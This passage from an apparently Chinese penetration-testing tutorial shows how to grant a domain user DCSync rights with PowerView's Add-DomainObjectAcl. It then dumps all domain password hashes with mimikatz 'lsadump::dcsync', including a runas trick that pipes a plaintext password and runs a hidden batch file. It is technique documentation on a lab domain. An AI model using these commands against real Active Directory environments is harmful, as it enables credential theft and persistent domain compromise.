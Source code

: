 https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1#L8270

**利用方法：**

添加ACE的命令如下：

```
Add-DomainObjectAcl -TargetIdentity "DC=test,DC=com" -PrincipalIdentity test1 -Rights DCSync -Verbose
```

**补充：**

删除ACE的命令：

```
Remove-DomainObjectAcl -TargetIdentity "DC=test,DC=com" -PrincipalIdentity test1 -Rights DCSync -Verbose
```

**注：**

关于更多ACL的内容可参考之前的文章：[《渗透技巧——Windows下的Access Control List》](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-Windows%E4%B8%8B%E7%9A%84Access-Control-List/)

使用域用户test1调用DCSync的方法如下：

#### 1.在域内一台登录了test1用户的主机上面，直接使用mimikatz的DCSync功能

```
mimikatz.exe privilege::debug "lsadump::dcsync /domain:test.com /all /csv" exit
```

#### 2.使用runas实现登录test1用户，再使用DCSync

(1)弹出cmd

```
echo 123456789 | runas /noprofile /user:test\test1 cmd
```

弹出的cmd下执行如下命令：

```
mimikatz.exe privilege::debug "lsadump::dcsync /domain:test.com /all /csv" exit
```

(2)不弹框实现

```
echo 123456789 | runas /noprofile /user:test\test1 c:\test\1.bat
```

1.bat的内容如下:

```
c:\test\mimikatz.exe privilege::debug "lsadump::dcsync /domain:test.com /user:administrator /csv" exit>c:\test\1.txt
```

**注：**

同类的工具还有lsrunas、lsrunase和CPAU
